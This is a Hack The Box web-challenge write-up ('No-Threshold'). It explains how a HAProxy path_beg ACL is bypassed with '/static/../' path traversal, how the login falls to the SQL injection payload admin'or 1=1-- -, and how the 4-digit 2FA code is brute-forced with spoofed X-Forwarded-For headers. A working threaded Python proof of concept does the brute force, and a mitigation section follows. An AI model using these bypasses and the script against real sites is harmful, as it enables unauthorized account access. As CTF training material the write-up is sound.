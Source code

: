```yaml
---
layout: post
title: No-Threshold
date: 2024-03-16 12:16 -0400
img_path: /assets/img/thresHold/
published: true
categories: ["Hack The Box","Web Challenge"]
tags: ["Bypass 403", "HapProxy ACL"]
toc: true
---
```

# Web challenge  
Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩

We saw a shopping page with a login functionality that is forbidden **403**. To add items , appear the message *Login Required* but we can't login because the 403 page, so is this about a 403 bypass ? 
![falsePositives](image.png) 
But all this were falses positives. (don't trust on automated scans)

## Source Code Review

* Inside the config.py file we saw our flag.

This challenge had an interesting configuration, on his Dockerfile we saw they install **HAProxy 2.8.3**, at the time i made this challenge ,this version doesn't have [vulnerabilites](https://www.cvedetails.com/vulnerability-list/vendor_id-11969/Haproxy.html).

Inside the haproxy.cfg config on line 36 we saw 
```conf
    # External users should be blocked from accessing routes under maintenance.
    http-request deny if { path_beg /auth/login }
```
The problem with this its the *path_beg* that will deny all request that start with **/auth/login** but no necesarily protect the endpoint. Because an attacker could circumvent this filter with a path like **/static/../auth/login/**
![403_bypass](image-1.png)
We can configure a rulle on Brup Porxy like this 
![Burp Rule](image-2.png)

Now we can analyze the login source code
```python
def login():
    if request.method == "POST":
        
        username = request.form.get("username")
        password = request.form.get("password")

        if not username or not password:
            return render_template("public/login.html", error_message="Username or password is empty!"), 400
        try:
            user = query_db(
                f"SELECT username, password FROM users WHERE username = '{username}' AND password = '{password}'",
                one=True,
            )

            if user is None:
                return render_template("public/login.html", error_message="Invalid username or password"), 400

            set_2fa_code(4)

            return redirect("/auth/verify-2fa")
```
this login code is vulnerable to sql inyection, so we can bypass the login with ```admin'or 1=1-- -``` 
![bypass_Login](image-3.png)
Now we are presente to 2fa functionality, brute force ? 
```python
def set_2fa_code(d):
    uwsgi.cache_del("2fa-code")
    uwsgi.cache_set(
        "2fa-code", "".join(random.choices(string.digits, k=d)), 300 # valid for 5 min
    )
```
Here's where a new value is set in the uWSGI cache. uwsgi.cache_set is a call to the uWSGI API to set a value in the cache. The first argument is the key under which the value will be stored ("2fa-code").

"".join(random.choices(string.digits, k=d)) generates a random string of digits, where string.digits is a string that contains '0123456789', and random.choices selects k random digits. These are joined without a separator to form a 2FA code.

300 is the lifetime of the cache item in seconds. In this case, it means that the 2FA code will be valid for 300 seconds, or 5 minutes.

The configuration of the haproxy.cfg 
```conf
    # Apply rate limit on the /auth/verify-2fa route.
    acl is_auth_verify_2fa path_beg,url_dec /auth/verify-2fa
    http-request deny deny_status 400 if is_auth_verify_2fa !valid_ipv4
    # Crate a stick-table to track the number of requests from a single IP address. (1min expire)
    stick-table type ip size 100k expire 60s store http_req_rate(60s)
    # Deny users that make more than 20 requests in a small timeframe.
    http-request track-sc0 hdr(X-Forwarded-For) if is_auth_verify_2fa
    http-request deny deny_status 429 if is_auth_verify_2fa { sc_http_req_rate(0) gt 20 }
```
* Rate Limiting on /auth/verify-2fa Route: An Access Control List (ACL) named is_auth_verify_2fa is created to identify requests to the /auth/verify-2fa path. After decodify the URL (%2f -> /)
* Denty with status 404 if the request to /auth/verify-2fa doesn't contain a valid ipv4 in the X-Forwarded-For
![X-Fowarded-For](image-4.png)
* Request Rate Tracking: A stick-table is configured to track the HTTP request rate per IP address over a 60-second interval, with a maximum size of 100k entries. This is used to enforce rate limits on a per-IP basis.
* Rate Limit Enforcement: Requests exceeding 20 requests per minute to the /auth/verify-2fa route, as determined by the stick-table, are denied with a 429 status code. This helps mitigate potential brute force attacks.

Mayority of this rules are base on the ACL **is_auth_verify_2fa** that uses the [*path_beg*](https://www.haproxy.com/blog/path-based-routing-with-haproxy) which compares the beginning of the path. As with /auth/login we can bypass this rule with something like /static/../auth/verify-2fa.

## Local Testing 

Using burpsuite we will test this brute force attack against local server.
Configure inside Intruder tab with a pitchfork attack, the request with two paylaods, once for the X-Forwarded-For adn the other offcourse for the 2FA token.
![alt text](image-5.png)

For the first payload, we will use a list of 10,000 different IPs, ranging from 1.1.1.1 to 1.1.40.16. For the second payload, we will go through all combinations from 0000 to 9999.
![Burp_BruteForce](image-6.png)
Now we use the cookie to request /dashboard endpoint and receive the flag

![Poc_Flag](image-7.png)

## Proof of Concept 

```python
import os, time , requests 
from concurrent.futures import ThreadPoolExecutor

URL="http://127.0.0.1:1337"
codes = [str(i).zfill(4) for i in range(10000)]
num_hilos = 50  # Ajusta según tus necesidades
proxy_burp = {'http':'192.168.1.83:8080','https':'192.168.1.83:8080'}

# Enviar la peticion POST al Login con al inyección SQL

login_bypass = f'{URL}/static/../auth/login'
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7"}
burp0_data = {"username": "admin'or 1=1-- -", "password": "123"}
requests.post(login_bypass, headers=burp0_headers, data=burp0_data, allow_redirects=True, proxies=proxy_burp)

def enviar_peticion(code):
    url_2fa = f'{URL}/static/../auth/verify-2fa'
    post_data = {"2fa-code":code}
    try:
        respuesta = requests.post(url_2fa, data=post_data, allow_redirects=True, proxies=proxy_burp)
        if 'Dashboard' in respuesta.text:
            print(respuesta.text)
    except Exception as e:
        print(f"Error al enviar petición a {url_2fa}: {e}")


with ThreadPoolExecutor(max_workers=num_hilos) as executor:
    executor.map(enviar_peticion, codes)
```

I notice that the X-Forwarded-For header was not necesary once you bypass the ACL(is_auth_verify_2fa). Also this python script require Burp Proxy Rules to change the path /static/../<> since requests library always normalize the path. 


## Mitigation 

We can improve the ACL on the haproxy.conf, explicitly specifying the paths available. 

```conf
acl valid_path path_beg,url_dec -i /auth/verify-2fa /path2 /path3
http-request deny if !valid_path
```

Also we can block **../** 
```conf
acl path_traversal url_dec -m sub ../
http-request deny if path_traversal
```